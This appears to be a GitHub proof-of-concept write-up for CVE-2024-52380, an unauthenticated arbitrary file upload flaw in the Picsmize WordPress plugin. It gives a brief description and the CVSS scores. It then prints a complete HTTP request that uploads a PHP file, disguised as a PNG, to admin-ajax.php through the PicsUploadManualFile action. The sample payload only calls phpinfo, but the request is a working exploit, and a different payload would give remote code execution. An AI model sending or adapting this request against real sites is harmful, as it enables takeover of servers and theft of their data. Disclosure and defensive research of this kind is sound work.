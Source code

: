 # CVE-2024-52380
Picsmize &lt;= 1.0.0 - Unauthenticated Arbitrary File Upload

# Description

The Picsmize plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in all versions up to, and including, 1.0.0. This makes it possible for unauthenticated attackers to upload arbitrary files on the affected site's server which may make remote code execution possible.

```
Score: 10.0
Vendors: Softpulse Infotech
Products: Picsmize
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
Interaction: none
Privileges: none
Attack Vector: network
```

POC
---
```
POST /wp-admin/admin-ajax.php HTTP/2
Host: wp-dev.ddev.site
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://wp-dev.ddev.site/wp-admin/admin.php?page=pics-manual
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------263629263440545280502417734995
Content-Length: 371
Origin: https://wp-dev.ddev.site
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

-----------------------------263629263440545280502417734995
Content-Disposition: form-data; name="images[]"; filename="t.php"
Content-Type: image/png

<?php phpinfo(); ?>
-----------------------------263629263440545280502417734995
Content-Disposition: form-data; name="action"

PicsUploadManualFile
-----------------------------263629263440545280502417734995--
```
